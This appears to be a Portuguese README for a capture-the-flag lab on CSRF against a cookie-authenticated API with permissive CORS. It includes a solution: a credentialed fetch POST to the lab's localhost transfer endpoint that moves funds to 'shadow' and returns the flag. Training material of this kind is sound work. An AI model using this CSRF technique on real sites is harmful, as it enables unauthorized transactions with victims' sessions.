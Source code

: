 # Desafio M13 — CSRF em API com Cookies

## Descrição
A aplicação expõe uma API autenticada por cookie e habilita CORS permissivo (`Access-Control-Allow-Origin: *` com credenciais). Isso permite que um site malicioso dispare transferências autenticadas a partir do navegador da vítima.

## Objetivos de Aprendizagem
- Revisitar conceitos de CSRF em APIs JSON.
- Explorar implicações de CORS permissivo combinado com cookies.
- Construir payloads HTML/JS para automatizar a transferência maliciosa.

## Serviços Disponíveis
- `GET /` — Define o cookie `session=analyst` e apresenta contexto.
- `GET /api/profile` — Mostra dados do usuário autenticado.
- `POST /api/transfer` — Executa transferências, retornando a flag se `to=shadow` e `amount>=1200`.

## Como Executar
1. Suba o container.
2. Abra `http://localhost:8080` para receber o cookie de sessão.
3. Reproduza, a partir de outra origem, uma chamada fetch para `/api/transfer` com credenciais.

## Como Capturar a Flag
- Utilize um script em outra origem (por exemplo, console do navegador) com:
  ```js
  fetch('http://localhost:8080/api/transfer', {
    method: 'POST',
    credentials: 'include',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({to: 'shadow', amount: 1500})
  });
  ```
- A resposta conterá a flag devido à transferência maliciosa.
